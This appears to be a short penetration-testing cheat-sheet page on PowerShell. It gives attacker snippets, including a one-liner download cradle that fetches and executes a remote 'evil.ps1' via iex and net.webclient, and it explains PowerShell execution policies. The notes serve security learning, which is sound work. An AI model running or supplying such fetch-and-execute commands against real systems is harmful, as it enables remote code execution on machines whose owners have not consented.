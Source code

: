 # Powershell

Powershell was Windows' answer to improving the scripting solution within Windows.  It's incredibly powerful for both Sysadmins as well as attackers.  Here I will include a number of snippets I've found useful for attacking devices with.

#### Executing a script without an extension

```text
powershell - < ps1file
```

#### Executing a script hosted on a web-server

```text
iex (new-object net.webclient).downloadstring('http://192.168.0.1/evil.ps1')
```

## Execution Policy

We can query the execution policy of the current powershell context by running:

```text
get-executionpolicy
```

So for security reasons the default policy for executing scripts is **Restricted**. Here are the different script-policies.

**Restricted**: PowerShell won't run any scripts.

**AllSigned**: PowerShell will only run scripts that are signed with a digital signature. If you run a script signed by a publisher PowerShell hasn't seen before, PowerShell will ask whether you trust the script's publisher.

**RemoteSigned**: PowerShell won't run scripts downloaded from the Internet unless they have a digital signature, but scripts not downloaded from the Internet will run without prompting. If a script has a digital signature, PowerShell will prompt you before it runs a script from a publisher it hasn't seen before.

**Unrestricted**: No restrictions on scripts but will still prompt you before running a script downloaded from the Internet.


